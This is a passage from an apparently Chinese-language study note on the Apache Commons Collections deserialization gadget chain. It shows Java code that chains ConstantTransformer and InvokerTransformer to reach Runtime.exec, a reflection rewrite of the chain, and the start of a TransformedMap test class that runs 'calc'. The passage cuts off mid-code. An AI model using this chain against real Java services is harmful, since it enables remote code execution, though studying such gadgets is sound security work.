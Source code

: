 ```java
		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);

		// 执行对象转换操作
		Object transform = transformedChain.transform(null);

```

下面可以对这端代码进行改写。

```java
Method getRuntime = (Method) Runtime.class.getClass().getMethod("getMethod", new Class[]{String.class, Class[].class}).invoke(Runtime.class,new Object[]{"getRuntime", new Class[0]});
		Runtime runtime = (Runtime) getRuntime.getClass().getMethod("invoke", new Class[]{Object.class, Object[].class}).invoke(getRuntime, new Object[]{null, new Object[0]});
		runtime.getClass().getMethod("exec", new Class[]{String.class}).invoke(runtime, new Object[]{cmd});
```

这个链子还是算比较简单的一种

### 如何利用?

- 如何传入`ChainedTransformer`
- 如何调用它的`transform`

:a:

![image-20220105195529141](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220105195529141.png)

这个类不仅实现了序列化接口，还支持对key和值进行`transform`处理。

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class TransformedMapTest {

	public static void main(String[] args) {
		String cmd = "calc";

		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
```